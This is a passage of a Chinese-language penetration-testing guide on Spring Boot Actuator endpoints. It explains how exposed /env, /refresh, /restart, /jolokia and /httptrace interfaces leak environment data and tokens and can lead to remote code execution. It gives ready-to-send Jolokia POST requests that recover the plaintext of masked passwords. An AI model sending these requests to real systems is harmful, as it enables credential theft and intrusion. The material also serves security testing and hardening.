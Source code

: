 其中对寻找漏洞比较重要接口的有：

*   `/env`、`/actuator/env`

    GET 请求 `/env` 会直接泄露环境变量、内网地址、配置中的用户名等信息；当程序员的属性名命名不规范，例如 password 写成 psasword、pwd 时，会泄露密码明文；

    同时有一定概率可以通过 POST 请求 `/env` 接口设置一些属性，间接触发相关 RCE 漏洞；同时有概率获得星号遮掩的密码、密钥等重要隐私信息的明文。
*   `/refresh`、`/actuator/refresh`

    POST 请求 `/env` 接口设置属性后，可同时配合 POST 请求 `/refresh` 接口刷新属性变量来触发相关 RCE 漏洞。
*   `/restart`、`/actuator/restart`

    暴露出此接口的情况较少；可以配合 POST请求 `/env` 接口设置属性后，再 POST 请求 `/restart` 接口重启应用来触发相关 RCE 漏洞。
*   `/jolokia`、`/actuator/jolokia`

    可以通过 `/jolokia/list` 接口寻找可以利用的 MBean，间接触发相关 RCE 漏洞、获得星号遮掩的重要隐私信息的明文等。
*   `/trace`、`/actuator/httptrace`

    一些 http 请求包访问跟踪信息，有可能在其中发现内网应用系统的一些请求信息详情；以及有效用户或管理员的 cookie、jwt token 等信息。

## 三.获取星号脱敏密码的明文

> 访问 /env 接口时，spring actuator 会将一些带有敏感关键词(如 password、secret)的属性名对应的属性值用 \* 号替换达到脱敏的效果

### 0x01：获取被星号脱敏的密码的明文 (方法一)

**利用条件：**

* 目标网站存在 `/jolokia` 或 `/actuator/jolokia` 接口
* 目标使用了 `jolokia-core` 依赖（版本要求暂未知）

**利用方法：**

**步骤一： 找到想要获取的属性名**

GET 请求目标网站的 `/env` 或 `/actuator/env` 接口，搜索 `******` 关键词，找到想要获取的被星号 \* 遮掩的属性值对应的属性名。

**步骤二： jolokia 调用相关 Mbean 获取明文**

将下面示例中的 `security.user.password` 替换为实际要获取的属性名，直接发包；明文值结果包含在 response 数据包中的 `value` 键中。

* 调用 `org.springframework.boot` Mbean

> 实际上是调用 org.springframework.boot.admin.SpringApplicationAdminMXBeanRegistrar 类实例的 getProperty 方法

spring 1.x

```
POST /jolokia
Content-Type: application/json

{"mbean": "org.springframework.boot:name=SpringApplication,type=Admin","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```

spring 2.x

```
POST /actuator/jolokia
Content-Type: application/json

{"mbean": "org.springframework.boot:name=SpringApplication,type=Admin","operation": "getProperty", "type": "EXEC", "arguments": ["security.user.password"]}
```
